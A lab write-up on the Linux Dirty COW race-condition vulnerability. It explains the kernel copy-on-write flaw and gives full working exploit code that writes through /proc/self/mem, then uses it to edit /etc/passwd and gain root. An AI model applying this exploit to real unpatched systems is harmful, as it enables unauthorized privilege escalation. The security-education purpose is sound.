 # Dirty COW Attack Lab
- The Dirty COW vulnerability is an interesting case of the race condition vulnerability, it exists in the Linux kernel since September 2007, and was discovered and exploited in October 2016
- The vulnerability resides in the code of copy-on-write inside Linux kernel, by exploting it, attackers can modify any protected file

## Labsetup
- [`Ubuntu 12.04`](https://seedsecuritylabs.org/labsetup.html)

## Dirty COW Vulnerability Explanation
- `write()` is not atomical
    ```
    write
        mem_write             ---+
            access_remote_vm  ---+--> set a foll_flags: what kind of access we want to request the memory (FOLL_WRITE)
                __get_user_pages --> try to get the requested page until success
                    faultin_page --> calls handle_mm_fault to handle problems, e.g., permission error
                        handle_mm_fault --> return a valid page
    ```
- `__get_user_pages`
    ```
    ...
    retry:
        cond_resched();
        // returns NULL if FOLL_WRITE in foll_flags
        page = follow_page_mask(..., foll_flags, ...); <-- Line 1
        if(!page) {
            ...
            ret = faultin_page(..., &foll_flags, ...); <-- Line 2
            ...
        }
    ```
- `faultin_page`
    ```
    ...
    ret = handle_mm_fault(...); <-- Line 3
    if((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
        //remove the FOLL_WRITE flag (so that the check in __get_user_pages can pass)
        *flags &= ~FOLL_WRITE; <-- Line 4
    ```
- steps
    1. when we try to write to a page, `Line 1` will return `NULL` since there is `FOLL_WRITE` flag
    2. we get into `Line 2` and `Line 3`, `Line 3` returns a copied page, then `Line 4` removed the `FOLL_WRITE` flag
    3. back to `__get_user_pages()`, if `madvise()` (in another thread) run just before `Line 1`, the copied page will be removed, causing `Line 1` to return `NULL` again
    4. we will finally get to `Line 3` again, this time, since no `FOLL_WRITE`, `handle_mm_fault()` doesn't know this is a write request, and will return the original page
    5. then the program will write to the original page
- why we use `/proc/self/mem`
    - `/proc/self/mem` is a pseudo-file generated by the kernel, it doesn't exist on the dist, so the kernel has to access our processes' memory
    - the special `access_remote_vm` function (kernel code) allows the kernel to access memory of another process
    - by writing to `/proc/self/mem`, we are effectively leveraging the kernel's access to everything even read-only files, this is how we write the dirty page back to the file on disk

## Task 1: Modify a Dummy Read-Only File
- objective: write to a read-only file using the Dirty COW vulnerability
- create a dummy file: create `/zzz` with permission `644 (-rw-r--r--)`, and put some random content in it
    ```
    $ sudo touch /zzz
    $ ls -l /zzz
    -rw-r--r-- root root 0 Jan 31 05:26 /zzz
    $ su
    Password:
    # echo 111222333 > /zzz
    # su seed
    $ cat /zzz
    111222333
    $ echo 123 > /zzz
    bash: /zzz: Permission denied
    ```
    - our goal is to replace the pattern `"222"` with `"***"`

- set up the memory mapping thread
    - the program `cow_attack.c` has three threads:
        - the main thread: maps `/zzz` to memory, finds where the pattern `"222"` is, and then creates 2 threads to exploit the Dirty COW vulnerability in the OS kernel
        - the write thread
        - the madvise thred
    ```
    void *map;
    int main(int argc, char *argv[]) {
        pthread_t pth1, pth2;
        struct stat st;
        int file_size;

        // Open the target file in the read-only mode
        int f = open("/zzz", O_RDONLY);
        // Map the file to COW memory using MAP_PRIVATE
        fstat(f, &st);
        file_size = st.st_size;
        map = mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
        // Find the position of the target string
        char *position = strstr(map, "222");

        // Create 2 threads to launch the attack
        pthread_create(&pth1, NULL, madviseThread, (void*)file_size);
        pthread_create(&pth2, NULL,   writeThread,         position);
        // Wait for the threads to finish
        pthread_join(pth1, NULL);
        pthread_join(pth2, NULL);
        return 0;
    }
    ```
- set up the `write` thread
    - the job of this thread is to replace the string `"222"` in the memory with `"***"`. Since the mapped memory is of COW (Copy-On-Write) type, this thread alone will only be able to modify the contents in a copy of the mapped memory, which will not cause any change to the underlying `/zzz` file
    ```
    void *writeThread(void *arg) {
        char *content = "***";
        off_t offset = (off_t) arg;
        int f = open("/proc/self/mem", O_RDWR);
        while(1) {
            // Move the file pointer to the corresponding position
            lseek(f, offset, SEEK_SET);
            // Write to the memory
            write(f, content, strlen(content));
        }
    }
    ```
- set up the `madvise` thread
    - this thread does only one thing: discarding the private copy of the mapped memory, so the page table can point back to the original mapped memory
    ```
    void *madviseThread(void *arg) {
        int file_size = (int) arg;
        while(1) {
            madvise(map, file_size, MADV_DONTNEED);
        }
    }
    ```
- *launch the attack*
    - if the `write()` and the `madvise()` system calls are invoked alternatively, i.e., one is invoked only after the other is finished, the `write` operation will always be performed on the private copy. The only way for the attack to succeed is to perform the `madvise()` system call while the `write()` system call is still running.
    - compile and run `cow_attack.c` using `gcc -o cow_attack cow_attack.c -lpthread`
    - after a few seconds, we can observe that `/zzz` is modified
    ```
    $ cat /zzz
    111***333
    ```
## Task 2: Modify the Password File to Gain the Root Privilege
- modify `/etc/passwd` to gain root privilege
- see the records for `root` and `seed`
    ```
    root:x:0:0:root:/root:/bin/bash
    seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash
    ```
- focus on the third field, which specifies the user ID (UID) value assigned to a user. UID is the primary basis for access control in Linux, so the value is critical to security. Any user with UID 0 is treated by the system as root
- task: modify a user `charlie`'s UID to `0`
    - original: `charlie:x:1002:1002:,,,:/home/charlie:/bin/bash`
    - after:`charlie:x:0000:1002:,,,:/home/charlie:/bin/bash`

- result
    ```
    $ cat /etc/passwd
    ...
    charlie:x:0000:1002:,,,:/home/charlie:/bin/bash
    $ su charlie
    Password:
    # id
    uid=0(root) gid=1002(charlie) groups=0(root),1002(charlie)
    ```

